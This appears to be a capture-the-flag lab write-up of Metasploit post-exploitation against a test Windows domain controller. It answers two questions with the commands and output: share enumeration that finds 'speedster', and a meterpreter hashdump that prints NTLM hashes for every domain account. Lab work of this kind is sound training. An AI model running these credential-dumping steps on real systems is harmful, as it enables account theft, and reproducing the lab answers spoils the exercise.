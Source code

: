 What is the name of the share likely created by the user?   `speedster`
```
msf6 post(windows/gather/enum_domain) > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > show options

Module options (post/windows/gather/enum_shares):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CURRENT  true             yes       Enumerate currently configured shares
   ENTERED  true             yes       Enumerate recently entered UNC Paths in the Run Dialo
                                       g
   RECENT   true             yes       Enumerate recently mapped shares
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(windows/gather/enum_shares) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/enum_shares) > run

[*] Running module against ACME-TEST (10.10.187.150)
[*] The following shares were found:
[*] 	Name: SYSVOL
[*] 	Path: C:\Windows\SYSVOL\sysvol
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: NETLOGON
[*] 	Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: speedster
[*] 	Path: C:\Shares\speedster
[*] 	Type: DISK
[*] 
[*] Post module execution completed
```
 
What is the NTLM hash of the jchambers user?  `69596c7aa1e8daee17f8e78870e25a5c`
```
msf6 post(windows/gather/enum_shares) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:eec208ef4eee9839fb5d8f0a77dde8b8:::
```

